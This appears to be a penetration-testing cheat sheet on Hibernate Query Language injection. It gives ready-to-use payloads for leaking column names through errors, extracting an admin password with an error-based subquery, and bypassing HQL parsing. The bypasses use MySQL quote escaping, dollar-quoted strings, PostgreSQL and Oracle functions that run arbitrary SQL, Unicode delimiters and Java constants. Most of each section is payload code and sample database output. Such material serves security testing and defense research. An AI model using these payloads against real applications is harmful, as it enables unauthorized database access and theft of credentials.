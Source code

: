 # Hibernate Query Language Injection

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia


## Summary

* [HQL Comments](#hql-comments)
* [HQL List Columns](#hql-list-columns)
* [HQL Error Based](#hql-error-based)
* [Single Quote Escaping](#single-quote-escaping)
* [$-quoted strings](#--quoted-strings)
* [DBMS Magic functions](#dbms-magic-functions)
* [Unicode](#unicode)
* [Java constants](#java-constants)
* [Methods by DBMS](#methods-by-dbms)
* [References](#references)


## HQL Comments

HQL does not support comments.


## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' --
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**


## Single Quote Escaping

Method works for MySQL DBMS which escapes SINGLE QUOTES in strings with SLASH `\'`.

In HQL SINGLE QUOTES is escaped in strings by doubling `''`.

```sql
'abc\''or 1=(select 1)--'
```

In HQL it is a string, in MySQL it is a string and additional SQL expression.


## $-quoted strings

Method works for DBMS which allow DOLLAR-QUOTED strings in SQL expressions: PostgreSQL, H2.

Hibernate ORM allows identifiers starting with `$$`.

```sql
$$='$$=concat(chr(61),chr(39)) and 1=1--'
```


## DBMS Magic functions

Method works for DBMS which have MAGIC FUNCTIONS which evaluate SQL expression in string parameter: PostgreSQL, Oracle.

Hibernate allows to specify any function name in HQL expression.

PostgreSQL has built-in function `query_to_xml('Arbitrary SQL')`.

```sql
array_upper(xpath('row',query_to_xml('select 1 where 1337>1', true, false,'')),1)
```

Oracle has built-in function `DBMS_XMLGEN.getxml('SQL')`

```sql
NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 where 1337>1')),'1')!='1'
```

## Unicode

Method works for DBMS which allow UNICODE delimiters (Ex. U+00A0) between SQL tokens: Microsoft SQL Server, H2.

In Microsoft SQL SERVER `SELECT LEN([U+00A0](select[U+00A0](1))` works the same as `SELECT LEN((SELECT(1)))`;

HQL allows UNICODE symbols in identifiers (function or parameter names).

```sql
SELECT p FROM hqli.persistent.Post p where p.name='dummy' or 1<LEN( (select top 1 name from users)) or '1'='11'
```

## Java constants

Method works for most DBMS (does not work for MySQL).

Hibernate resolves Java public static fields (Java constants) in HQL queries:

- Class with Java constant must be in classpath
- Ex. `java.lang.Character.SIZE` is resolved to 16
- String or char constants are additionally surrounded by single quotes

To use JAVA CONSTANTS method we need special char or string fields declared in classes or interfaces on classpath.

```java
public class Constants {
    public static final String S_QUOTE = "'";
    public static final String HQL_PART = "select * from Post where name = '";
    public static final char C_QUOTE_1 = '\'';
    public static final char C_QUOTE_2 = '\047';
    public static final char C_QUOTE_3 = 39;
    public static final char C_QUOTE_4 = 0x27;
    public static final char C_QUOTE_5 = 047;
}
```

Some usable constants in well-known Java libraries:

```ps1
org.apache.batik.util.XMLConstants.XML_CHAR_APOS         [ Apache Batik ]
com.ibm.icu.impl.PatternTokenizer.SINGLE_QUOTE           [ ICU4J ]
jodd.util.StringPool.SINGLE_QUOTE                        [ Jodd ]
ch.qos.logback.core.CoreConstants.SINGLE_QUOTE_CHAR      [ Logback ]
cz.vutbr.web.csskit.OutputUtil.STRING_OPENING            [ jStyleParser ]
com.sun.java.help.impl.DocPConst.QUOTE                   [ JavaHelp ]
org.eclipse.help.internal.webapp.utils.JSonHelper.QUOTE  [ EclipseHelp ]
```

```sql
dummy' and hqli.persistent.Constants.C_QUOTE_1*X('<>CHAR(41) and (select count(1) from sysibm.sysdummy1)>0 --')=1 and '1'='1
```


## References

- [HQL for pentesters - Philippe Arteau - February 12, 2014](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
- [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt - July 7, 2010](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
- [HQL: Hyperinsane Query Language - Renaud Dubourguais - June 4, 2015](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
- [ORM2Pwn: Exploiting injections in Hibernate ORM - Mikhail Egorov - November 26, 2015](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)
- [New Methods for Exploiting ORM Injections in Java Applications - HITBSecConf2016 - Mikhail Egorov - Sergey Soldatov - October 16, 2016](https://web.archive.org/web/20161016220026/https://conference.hitb.org/hitbsecconf2016ams/materials/D2T2%20-%20Mikhail%20Egorov%20and%20Sergey%20Soldatov%20-%20New%20Methods%20for%20Exploiting%20ORM%20Injections%20in%20Java%20Applications.pdf)
- [HQL Injection Exploitation in MySQL - Olga Barinova - July 18, 2019](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hql-injection-exploitation-in-mysql/)